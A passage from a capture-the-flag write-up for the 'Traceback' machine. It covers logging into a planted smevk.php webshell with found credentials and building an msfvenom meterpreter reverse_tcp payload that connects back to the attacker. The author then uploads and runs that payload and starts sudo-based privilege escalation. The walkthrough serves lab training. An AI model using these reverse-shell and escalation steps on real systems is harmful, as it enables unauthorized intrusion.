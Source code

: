 Fantastic! Going back to Xh4h's GitHub, the username and password are found in `smevk.php`:

![smevk.php webshell creds](/assets/images/traceback/smevk_webshell_credentials.png)

Logging in with the found credentials grants access to a web UI that sits on top of the webshell. It has a ton of helper functionality built-in; we can use the tools it ships with to migrate to a more stable command shell. There are plenty of ways to go about this, but since we're not worried about any kind of stealth or AV evasion I'll create a payload with msfvenom and then upload it to disk and execute. In order to accurately perform this, make sure to enumerate properly with the webshell - things like architecture, writeable directories, etc. will go a long way in guaranteeing success when creating payloads. To generate a payload, I ran `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443`. From there, upload it to the victim server - your choice how this is achieved - and make sure to `chmod` it so that it can be executed. Once we execute the payload, we should receive a meterpreter shell:

![Reverse shell connection](/assets/images/traceback/revshell_connect.png)

## >> GETTING PROMOTED - WEBADMIN TO SYSADMIN

Okay, we're on the server now with a shell. Starting by enumerating who we are and what we can do leads to the following information:
* We are the user "webadmin"
* In our home directory, there is a note.txt
* Our home directory is /home/webadmin

One of the first things I check every time I'm on a Linux host is running `sudo -l`. For those who are unfamiliar with Linux, this command lists out which commands the current user can run with elevated privileges. The output of that command is:
```
Matching Default entries for webadmin on traceback:
  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
  (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
What does this mean? This tells us three things:
* We can run the command `/home/sysadmin/luvit`
* We can run the command as the user `sysadmin`
* We can run the command without needing a password

Here's the problem - we're currently doing this within a meterpreter shell, and trying to execute the program within it goes south rather quickly:

![Executing the luvit command in meterpreter](/assets/images/traceback/luvit_repl.png)
